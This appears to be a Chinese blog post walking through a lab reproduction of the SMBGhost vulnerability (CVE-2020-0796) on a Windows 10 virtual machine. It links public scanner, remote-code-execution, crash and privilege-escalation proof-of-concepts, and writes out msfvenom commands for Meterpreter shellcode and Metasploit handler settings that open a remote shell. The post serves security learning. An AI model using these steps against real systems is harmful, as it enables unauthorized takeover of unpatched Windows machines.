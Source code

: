 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/hRGai3yyogNVpU1QwhcbfQ)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDLE7ic82qE4RJVWm6ibRVAiaiaWesdPZJ7px6V9nGJDz2ZqEyeticHF4spns9KKWZhXUpqWXnUqgV3kqw/640?wx_fmt=png)

简介

SMB(全称是 Server Message Block) 是一个协议名，它能被用于 Web 连接和客户端与服务器之间的信息沟通。

漏洞概述

(CVE-2020-0796 SMBGhost) 该漏洞是由于 SMBv3 协议在处理恶意的压缩数据包时出错所造成的，它可让远程且未经身份验证的攻击者在目标系统上执行任意代码。该漏洞的后果十分接近永恒之蓝系列，都利用 Windows SMB 漏洞远程攻击获取系统最高权限，WannaCry 勒索蠕虫就是利用永恒之蓝系列漏洞攻击工具制造的大灾难。

影响版本

适用于 32 位系统的 Windows 10 版本 1903

Windows 10 1903 版（用于基于 x64 的系统）

Windows 10 1903 版（用于基于 ARM64 的系统）

Windows Server 1903 版（服务器核心安装）

适用于 32 位系统的 Windows 10 版本 1909

Windows 10 版本 1909（用于基于 x64 的系统）

Windows 10 1909 版（用于基于 ARM64 的系统）

Windows Server 版本 1909（服务器核心安装）

这里是我使用的 Windows10 版本的靶机

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDLE7ic82qE4RJVWm6ibRVAiaiaszPdAJWDSDYmSIia2xsjTmX7nHom6vU6eicH5CBCSZAicgPFiaCKfia0JEg/640?wx_fmt=png)

环境搭建  
Kali 虚拟机以及 windows10 虚拟机  
可在虚拟机中搭建 win10 系统来进行复现。迅雷链接：

ed2k://|file|cn\_windows\_10\_business\_editions\_version\_1903\_x64\_dvd\_e001dd2c.iso|4815527936|47D4C57E638DF8BF74C59261E2CE702D|/

使用扫描工具来验证是否由该漏洞

https://github.com/ollypwn/SMBGhost

可以看到该版本是具有 SMBv3 RCE 漏洞的

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDLE7ic82qE4RJVWm6ibRVAiaiaCyibctiaFtC8ZibwAIfibFmc2OemEibO4DI6vePurdFoEzI6Dibqpj2swVhw/640?wx_fmt=png)

漏洞复现  
EXP 地址：

https://github.com/chompie1337/SMBGhost\_RCE\_PoC

该 exp 使用环境为 python3  
下载完成后将该 exp 放到 Kali 虚拟机中  
启动 msf，使用 msf 生成 shellcode  
命令为：

msfvenom -p windows/x64/meterpreter/bind\_tcp lport=3333 -f py -o shellcode.txt

如果不输入为 txt 就使用这一条

msfvenom -p windows/x64/meterpreter/bind\_tcp LPORT=8888 -b '\\x00' -i 1 -f python

执行该命令后会在同目录下生成一个 shellcode.txt，将生成的 shellcode 替换 exp 中的 exploit.py 中的 USER\_PAYLOAD 保存即可。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDLE7ic82qE4RJVWm6ibRVAiaiaYdiaz1c3nrJJaAqDj3pMaL004vPVvSUj2D57UPAvAPUAWzxuibkhsbJQ/640?wx_fmt=png)

替换到 exploit.py 里面。注意这里 MSF 给出的是 buf 在 exploit.py 里面是 USER\_PAYLOAD 这个需要修改一下

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDLE7ic82qE4RJVWm6ibRVAiaiaoiaXIL7OhBavbt8mJ1qVMjBiafoSMLePaYZ7hnibzkr6wUo8ce1pjnDDA/640?wx_fmt=png)

修改好了 exp 文件之后，在 MSF 上面设置监听

use exploit/multi/handler

set payload windows/x64/meterpreter/bind\_tcp

set lport 8888

set rhost 192.168.8.138

run

使用 exp 对 windows 进行反弹 shell。这里成功了并且没有蓝屏的现象

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDLE7ic82qE4RJVWm6ibRVAiaiaIdR5gE0VO9RSiaKwibqcJqsX1rvlMReibPSvia5Bgt8BwrPXRf3Pm036kg/640?wx_fmt=png)

蓝屏的 POC。这个 POC 可以把由这个漏洞的 windows10 系统打到蓝屏

https://github.com/eerykitty/CVE-2020-0796-PoC

在执行的时候需要注意要安装一些包和注意路径的问题

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDLE7ic82qE4RJVWm6ibRVAiaiaFM8DpNXNick6wdAHACfYD2JjN7kUgX2sfsxIULxy3FdJpr409kse6Hg/640?wx_fmt=png)

本地提权 POC

https://github.com/danigargu/CVE-2020-0796

编译好了的版本如下：

https://github.com/danigargu/CVE-2020-0796/releases

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDLE7ic82qE4RJVWm6ibRVAiaiaKjZkJcWAKhrju7RZkdH6tfszIaicQkEKMvyLkK2e3L208HXSIPciacVQ/640?wx_fmt=png)

渗透测试 红队攻防 免杀 权限维持 等等技术 

及时分享最新漏洞复现以及 EXP 国内外最新技术分享!!!

进来一起学习吧

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/nzxUaDY8yDC1QHAC8PAV6JaPBJno5cRxvqAVB1pm0tOZd3TQM7jCB5nTbnfa40GHHQFIWpFFRuHCCCdtykVQWQ/640?wx_fmt=jpeg)